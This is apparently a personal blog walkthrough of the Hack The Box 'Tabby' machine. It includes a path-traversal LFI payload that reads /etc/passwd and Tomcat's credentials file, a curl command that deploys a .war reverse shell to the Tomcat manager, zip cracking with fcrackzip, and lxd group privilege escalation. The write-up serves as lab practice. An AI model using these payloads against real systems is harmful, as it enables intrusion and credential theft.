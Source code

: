 ![](http://vedanttare.com/wp-content/uploads/2022/04/Screenshot-2022-09-25-at-11.21.40-AM.png)

IP addr: 10.10.10.194,

Misc Info: Email id found – sales@megahosting.htb

## Enumeration

Starting off with a basic nmap scan: `sudo nmap -sC -sV -O -p- -oA nmap/tabby 10.10.10.194`, we get,

Checking on port 80, on megahosting website, there is an LFI in file parameter:  
`http://www.megahosting.htb/news.php?file=../../../../../etc/passwd`

![](http://vedanttare.com/wp-content/uploads/2022/04/etcpasswd-file.png)

Also add www.megahosting.htb to /etc/hosts. This domain is showed when navigated to the IP address on port 80. Now there was a apache tomcat 9 (9.0.31) server running on 8080.

![](http://vedanttare.com/wp-content/uploads/2022/04/port-8080.png)

It was leaking many paths, which were the local paths to the tomcat server hosting. From there we can try and retrieve the username:password file to get creds and login to the manager app and upload a .war rev shell.  
Credentials file path: `http://10.10.10.194:8080/news.php?file=../../../../../usr/share/tomcat9/etc/tomcat-users.xml`

![](http://vedanttare.com/wp-content/uploads/2022/04/tomcat-creds.png)

From here we could get the credentials:

![](http://vedanttare.com/wp-content/uploads/2022/04/Screenshot-2022-04-15-at-5.28.33-PM.png)

We could also check for the creds in the repeater tab of burp:

![](http://vedanttare.com/wp-content/uploads/2022/04/creds-from-repeater.png)

Now there was a problem we could only login to the host-manager app and not the manager app, so we could not use the gui to upload a .war rev shell. Hence, we used curl to upload the file to the default location in the manager app:

`curl -v -u 'tomcat':'$3cureP4s5w0rd123!' -T shell.war "http://10.10.10.194:8080/manager/text/deploy?path=/shelling`

![](http://vedanttare.com/wp-content/uploads/2022/04/curl-upload.png)

Now setting up a netcat listener and then calling the file using curl again:  
`curl http://10.10.10.194:8080/shelling (path which we had specified while uploading)`

And BOOM!…We get a rev shell!!!!

## Privilege Escalation

For privesc we had to unzip a zipped backup file which was in /var/www/html/files/16(something)\_backup.zip. We then used fcrackzip to decrypt the password of the file:  
`fcrackzip -D -p rockyou.txt 16(something)_backup.zip`

Hence, we got the password as: `admin@it`

We checked the zipped file by unzipping it by providing the password but we didn’t find anything interesting there. So, we just used that password to switch to ash user:  
`su ash`  
`enter password: admin@it`

And BOOM!!!…We got logged in as user ash.

Now, for root privesc we saw that the ash user was a member of the `lxd` group. So, we created and image using `lxd/lxc` and got root!!!!!

First method to escalate privileges using `lxd` group:

![](http://vedanttare.com/wp-content/uploads/2022/04/lxd-privesc-1.png)

Second method to escalate privileges using `lxd` group:

![](http://vedanttare.com/wp-content/uploads/2022/04/lxd-2.png)

Important links and resources:

[https://www.hackingarticles.in/lxd-privilege-escalation/](<LINK: https://www.hackingarticles.in/lxd-privilege-escalation/>)

[https://debian.pkgs.org/10/debian-main-amd64/tomcat9\_9.0.31-1~deb10u2\_all.deb.html](https://debian.pkgs.org/10/debian-main-amd64/tomcat9_9.0.31-1~deb10u2_all.deb.html)

<https://packages.ubuntu.com/focal/all/tomcat9-common/filelist>

<https://packages.debian.org/sid/all/tomcat9/filelist>

<https://askubuntu.com/questions/135824/what-is-the-tomcat-installation-directory>

Check out my previous post:

<figure class="wp-block-embed is-type-wp-embed is-provider-vedant-tare wp-block-embed-vedant-tare"><div class="wp-block-embed__wrapper">> [Hackthebox – Blocky](https://vedanttare.com/hackthebox-blocky/)

<iframe class="wp-embedded-content" data-secret="ml3ORxLUIa" frameborder="0" height="338" marginheight="0" marginwidth="0" sandbox="allow-scripts" scrolling="no" security="restricted" src="https://vedanttare.com/hackthebox-blocky/embed/#?secret=9zavCy4OwI#?secret=ml3ORxLUIa" style="position: absolute; clip: rect(1px, 1px, 1px, 1px);" title="“Hackthebox – Blocky” — VEDANT TARE" width="600"></iframe></div></figure>
